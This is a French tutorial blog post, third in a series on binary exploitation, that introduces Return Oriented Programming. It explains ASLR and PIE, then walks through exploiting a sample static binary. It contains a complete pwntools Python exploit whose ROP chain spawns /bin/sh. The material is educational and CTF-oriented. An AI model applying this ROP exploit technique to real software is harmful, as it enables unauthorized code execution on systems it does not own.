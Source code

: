 ```yaml
---
author: "Laluka"
title: "PWN 3/4 : SaperliROPette !"
slug: "pwn_3of4_saperliropette"
date: 2018-05-09
status: "original"
description: "Introcution au Return Oriented Programming (ROP) et exemple pratique."
---
```


 > Petit ajout après la publication des articles :

 > Ces quatres articles ont donné lieu à une conférence d'introduction au pwn à la HitchHack 2018. Elle résume les 3 premiers articles mais rentre moins dans le détail. Si ce format vous convient mieux, les slides sont téléchargables [ici](/hacking/pwn_1of4_buffer_overflow/slides_conf_123_pwned.pdf) et la vidéo (francais uniquement) ici :

{{< youtube hmt8M9YLwTg >}}

## Route du pwn, troisième  escale, bienvenue à bord !

Hier, le simple buffer overflow et le ret2libc, aujourd'hui, le ROP, ou Return Oriented Programming, et demain... Demain la conquête du monde !!!

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/aboard.jpg" alt="aboard" >

Je vous ai laissé hier sur le ret2libc, qui, vu de loin, consiste à piocher dans la libc les fonctions qui nous intéressent. Sauf que cette attaque n'est pas possible dans le cas où le programme est compilé en statique, et difficilement faisable si l'ASLR est activé. Nous allons aujourd'hui découvrir le ROP qui nous permet de contourner ces protections.

Ca ressemble de plus en plus au jeu du chat et de la souris, so...\
Follow the leader cat !

## Précisions ASLR et PIC

Avant de commencer, un petit retour sur ces protections parfois floues.

La configuration de l'ASLR est présente dans `/proc/sys/kernel/randomize_va_space`. Elle peut être à 0=désactivée, 1=activée (stack et heap), 2=activée (1 + data). La valeur 2 étant la nouvelle norme en cours d'adoption par les différents systèmes, déjà effective pour la plupart.

L'ASLR laisse donc toute une surface d'attaque non randomisée. Arriva donc ce qu'il devait arriver : des attaques utilisant les sections .text, .data, .got, .plt, ...

Plus d'informations sur les différentes sections et la structure d'un ELF ici : [ELF_format](://fr.wikipedia.org/wiki/Executable_and_Linkable_Format)

L'ASLR ne suffisant pas, de nouvelles protections ont été mises en place : PIC / PIE (Position Indépendant Code / Exécutable). L'idée est simple... Et si on randomisait... TOUT ?!

Le ROP fonctionne avec un ASLR partiel ou total, mais est contré par cette dernière mesure...

Suite à la prochaine contre contre-mesure ! è.é

## Présentation de la technique

Return... Oriented... Programming...

Hum hum... Programmer... Avec des... Return ? °^°'

On va profiter du fait que la section .text du programme soit toujours au même emplacement pour piocher plein de petits bouts de code appelés gadgets, et les assembler pour faire notre exploit. L'exploit est donc une suite d'adresses pointant sur de l'assembleur, donc dans l'absolu, on peut tout faire avec. La limite ? Les gadgets qui sont à notre disposition dans le programme...

Même si on "peut tout faire", la stratégie la plus commune reste de faire comme dans l'article 1 où l'on génère un shellcode qui, via un syscall, permet d'exécuter un programme de notre choix.

Une chose importante à relever ici : On a besoin de gadgets. Les gadgets, c'est du code qui ne bouge pas. Les librairies, ca bouge. Donc un programme qui se base sur les librairies aura bien moins de surface d'attaque qu'un programme compilé en statique, qui, lui, contient tout le code qu'il utilise. De même, plus un programme va être volumineux et faire des actions complexes, plus vous avez de chance qu'il y ait des gadgets intéressants. Capich ? Noice !

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/noice.gif" alt="noice" >

Maintenant, abordons plus en détail les gadgets voulez-vous ?

Ils doivent tous répondre à un critère majeur : Se terminer par une instruction ret.

C'est ce critère qui rend l'attaque possible. En effet, lorsque l'on va contrôler le pointer d'instructions, on va faire en sorte que le programme exécute un premier gadget, que l'instruction ret finale indique la fin de l'exécution du premier gadget, et fasse revenir sur notre point de départ (la stack, qu'on vient d'overflow), mais une adresse plus loin. Cette adresse sera celle du second gadget et ainsi de suite.

Méfiance tout de même, si votre gadget se termine par un ret, mais contient des instructions qui modifient le flot d'exécution du programme, il risque de casser votre exploit. Donc pas de `call`, pas de `leave`, pas de `double ret`, pas de bras, et surtout : pas de chocolat.

De nombreux outils permettent de lister les gadgets d'un exécutable, comme ROPgadget, Ropper, XRop, ...

## Elaboration de l'exploit

Le binaire étudié est téléchargable [ici](/hacking/pwn_3of4_saperliropette/vuln)

Avant toute chose, on regarde un peu à quoi on s'attaque : x86-64, compilé en statique, full ASLR. Ok !

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/readelf.png" alt="readelf" >

Vous avez l'habitude maintenant, le classique :

Comprendre le fonctionnement du programme, trouver le point de crash, puis l'offset !

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/pattern_create.png" alt="pattern_create" >

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/crash.png" alt="crash" >

Ici encore, on voit que l'on crash sur un ret... Contrôlons-nous RSP ? Oui ! Offset ? 264 !

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/pattern_search.png" alt="pattern_search" >

Petit rappel, ret a pour effet de placer ce vers quoi pointe RSP (donc le dernier élément de la stack), dans RIP. Nous avons donc RIP sous notre contrôle. Donc... RIP !

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/dead_shell.jpg" alt="dead_shell" >

On utilise ensuite l'outil ropgadget qui nous offre une superbe ropchain faite à partir de notre programme vulnérable :

```shell
$ ropgadget --binary vuln --ropchain
```

L'output est long (verbeux), je n'en mets qu'une partie :

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/ropgadget.png" alt="ropgadget" >

On en fait donc un fichier python, notre exploit est donc :


```python
#!/usr/bin/env python2

from pwn import *

# Setting up
context.log_level = "debug"

offset = 264
payload = "A" * offset
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c0)  # @ .data
payload += p64(0x000000000043167d)  # pop rax ; ret
payload += '/bin//sh'
payload += p64(0x000000000045f661)  # mov qword ptr [rsi], rax ; ret
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x000000000041918f)  # xor rax, rax ; ret
payload += p64(0x000000000045f661)  # mov qword ptr [rsi], rax ; ret
payload += p64(0x000000000040158b)  # pop rdi ; ret
payload += p64(0x00000000006b41c0)  # @ .data
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x0000000000432ef5)  # pop rdx ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x000000000041918f)  # xor rax, rax ; ret
payload += p64(0x0000000000453b50) * 59 # add rax, 1 ; ret
payload += p64(0x00000000004546e5)  # syscall ; ret

p = process("./vuln")
p.recv()
p.sendline(payload)
p.interactive()
p.close()
```

C'est pas beau toute cette automatisation ? Bon, ca ne marche pas à tous les coups, mais quand ca marche, le gain de temps est énorme, surtout en CTF... ;)

On va maintenant l'exploiter :

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/run_exploit.png" alt="run_exploit" >

TADA, one more shell ! :D

Petit détail qui tue, on voit ici que $0 (le nom du programme exécuté) vaut `bash`, alors que dans notre ropchain, on avait `/bin//sh` (qui est compris comme `/bin/sh`). Mais c'est normal, car sur ma machine, `/bin/sh` est un lien symbolique qui pointe vers bash ! Mon vrai sh est `/usr/bin/sh`.

 > Mais... Ca ne concorde pas avec les exploits précédents ?!

Wouah ! Un qui suit ! Oui, en effet...\
Plus d'informations sur cette étrangeté sur l'article de coupaing Pixis : [sh_vs_bash](https://beta.hackndo.com/sh-vs-bash/)

C'est tout pour cette courte introduction au ROP, j'espère qu'elle vous a mindblown comme il se doit. Vous avez désormais quelques cartes en main : BOF / shellcode / ret2libc / ROP / cerveau / ...

C'est pourquoi notre prochaine rencontre se fera autour de l'analyse d'un programme un peu plus complet. Nous allons donc conclure cette série et...

Tout faire péterrrrr ! `\o/`

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/like_a_boss.gif" alt="like_a_boss" >

A très vite pour encore plus de pwn !
